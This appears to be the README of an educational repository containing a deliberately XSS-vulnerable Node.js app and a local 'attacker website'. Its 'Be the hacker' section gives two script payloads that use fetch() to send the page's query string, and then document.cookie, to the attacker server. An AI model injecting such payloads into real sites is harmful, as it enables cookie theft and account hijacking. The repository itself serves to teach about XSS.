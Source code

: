 This repository contains a sample web application with Cross-Site Scripting (XSS) vulnerabilities and its attacker website.

---
### Technology

This project uses the following technologies:

-  [Node.js](https://nodejs.org/)

### Running the Application

2. Move to the root folder of the project (`xss-sample-app`) in your machine and install the dependencies by running the following command:

   ```shell
   npm install
   ```

3. To launch the web application, run the following command:

   ```shell
   npm start
   ```

4. Point your browser to [http://localhost:3000](http://localhost:3000) to access the sample web app.

5. To launch the attacker website, run the following command:

   ```shell
   npm run start-attacker
   ```

6. Point your browser to [http://localhost:4000](http://localhost:4000/) to access the attacker website


### Reflected XSS - Be the hacker

1. Inject the malicious code as a review:
`<script>fetch(`http://localhost:4000?data=${encodeURIComponent(window.location.search)}`)</script>`

2. Open the sample web app in another browser tap and insert a custom review and submit it.

3. How does the attacker website looks like after refreshing the attackers website?


### What if malicious code looks like:
<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>

